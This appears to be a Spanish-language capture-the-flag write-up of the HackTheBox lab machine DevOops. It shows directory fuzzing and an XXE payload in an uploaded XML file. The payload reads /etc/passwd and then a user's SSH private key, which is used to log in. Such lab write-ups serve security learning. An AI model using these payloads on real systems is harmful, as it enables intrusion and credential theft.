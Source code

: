 # 10.10.10.91 - DevOops
![DevOops](https://user-images.githubusercontent.com/96772264/209209899-8e7383a6-6926-455a-9ee9-2dc94295d759.png)

-----------------------
# Part 1: Enumeración

PUertos abiertos 22(ssh), 5000
![devops1](https://user-images.githubusercontent.com/96772264/209209973-2424dce6-36ac-4436-bde3-7902ddc6abff.PNG)


```console
└─$ curl -s http://10.10.10.91:5000
Under construction!
This is feed.py, which will become the MVP for Blogfeeder application.
TODO: replace this with the proper feed from the dev.solita.fi backend.
[/feed]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ/'
000000347:   200        0 L      39 W       347 Ch      "upload"                                             
000000112:   200        1815 L   24122 W    517022 Ch   "feed"
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ.php'
# Nada
└─$ wfuzz -c --hw=31 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.10.10.10.91:5000" -u http://10.10.10.91:5000/ -t 100
# Tampoco
```

**/feed** -> nos muestra la misma foto que salia en el puerto 5000

-----------------------
# Part 2: XXE

En **/uploads** nos piden un xml con una estrcutura muy concreta:

![devops2](https://user-images.githubusercontent.com/96772264/209210080-478618b2-c9b5-4690-8f7c-e9d00fae2e6c.PNG)

```
<?xml version="1.0" encoding="UTF-8"?>
<elements>
    <Author>William Gibson</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
```
PROCESSED BLOGPOST: Author: William Gibson Subject: Cyberpunk Content: Neuromante 
URL for later reference: /uploads/test.xml File path: /home/roosa/deploy/src
```
Esto nos leakea el lugar donde se sube y una ruta/usuario del sistema "roosa"

Si subimos un XML "muy especial" (inyeccion XXE)
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<elements>
    <Author>&xxe;</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
Conclusión: Usarios -> root git y roosa

Como sabemos que existe el usuario roosa, podemos pedir su llave ```/home/roosa/.ssh/id_rsa```

![devops3](https://user-images.githubusercontent.com/96772264/209210104-bd404212-ea7e-4447-acd3-013be4e33aaf.PNG)

```console
└─$ ssh -i id_rsa roosa@10.10.10.91
```
-----------------------
# Part 3: En el sistema
```console
roosa@devoops:~$ cat run-blogfeed.sh
#/bin/bash

# TODO: replace with better script and run as blogfeed user which is restricted

cd /home/roosa/work/blogfeed/src
../run-gunicorn.sh
```
- Archivos que llaman la atencion: /home/roosa/deploy/src/app.py~ /home/roosa/service.sh 
La "~" significa backup, con diff vemos las diferencias...
```console
roosa@devoops:/tmp$ diff <(cat /home/roosa/deploy/src/app.py~) <(cat /home/roosa/deploy/src/app.py)
<   run_gunicorn_app("0.0.0.0", 5000, True, )
>   run_gunicorn_app("0.0.0.0", 5000, True, None)
```






